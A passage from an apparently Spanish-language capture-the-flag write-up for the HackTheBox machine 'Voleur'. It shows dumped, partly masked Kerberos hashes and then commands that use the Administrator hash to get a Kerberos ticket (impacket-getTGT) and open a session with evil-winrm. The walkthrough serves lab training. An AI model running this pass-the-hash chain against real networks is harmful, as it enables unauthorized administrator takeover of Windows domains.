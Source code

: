 ```bash
voleur.htb\svc_iis:des-cbc-md5:70*******************f92
voleur.htb\jeremy.combs:aes256-cts-hmac-sha1-96:8bbb5ef576ea115a**********************9760557baa0
voleur.htb\jeremy.combs:aes128-cts-hmac-sha1-96:b70ef22*********************7f8a27
voleur.htb\jeremy.combs:des-cbc-md5:192**************5257
voleur.htb\svc_winrm:aes256-cts-hmac-sha1-96:6285ca8b77**************************70eaddce114
voleur.htb\svc_winrm:aes128-cts-hmac-sha1-96:f21**********************122cb80b831
voleur.htb\svc_winrm:des-cbc-md5:3***************10ab
[*] Cleaning up... 

```

Obtuvimos todos los hashes, asi que vamos a tomar el de `Administrator` y solicitar un ticket Kerberos para autenticarnos via `WinRm`

```bash
impacket-getTGT VOLEUR.HTB/Administrator -hashes :e656e07c***********b259ad2
```

```bash
export KRB5CCNAME=Administrator.ccache
```

```bash
evil-winrm -i DC.voleur.htb -u Administrator -r VOLEUR.HTB
```

<img width="1599" height="777" alt="image (12)" src="https://github.com/user-attachments/assets/4f867edb-d4fb-4446-8e86-cddd6649d9ed" />






















